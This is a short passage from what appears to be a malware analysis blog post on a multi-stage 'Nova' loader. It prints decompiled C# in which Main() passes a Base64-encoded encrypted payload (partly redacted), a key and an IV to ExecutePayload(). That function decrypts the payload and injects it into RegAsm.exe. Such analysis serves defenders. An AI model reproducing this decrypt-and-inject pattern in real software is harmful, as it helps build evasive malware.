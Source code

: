 [![6](/assets/images/Nova/6.png)](/assets/images/Nova/6.png){: .full}

#### Main()

The Main method initializes three important elements:

* A large Base64-encoded string (named text) that represents the encrypted payload.
* A key and an initialization vector (IV) – also provided as Base64 strings.
* It then calls `ExecutePayload()` with these parameters.

```c#
private static void Main(string[] args)
    {
      string text = "fK2NaQxHVYZVTAo+NeLyWNkL[...REDACTED...]";
      byte[] array = Convert.FromBase64String("iA9B1uKFddQdqiLSSuzvD2GhL1o2Jv+v");
      byte[] array2 = Convert.FromBase64String("b2CBFvcQeV4=");
      Program.ExecutePayload(text, array, array2);
    }
```

#### ExecutePayload()

We can see in the Main() function, the 5th stage is executed via calling the `ExecutePayload()` function:

```c#
    private static void ExecutePayload(string encryptedData, byte[] key, byte[] iv)
    {
      byte[] array = Program.DecryptData(encryptedData, key, iv);
      bool flag = array != null;
      if (flag)
      {
        string text = Path.Combine(RuntimeEnvironment.GetRuntimeDirectory(), "RegAsm.exe");
        Program.InjectPayloadIntoProcess(text, array);
      }
    }
```
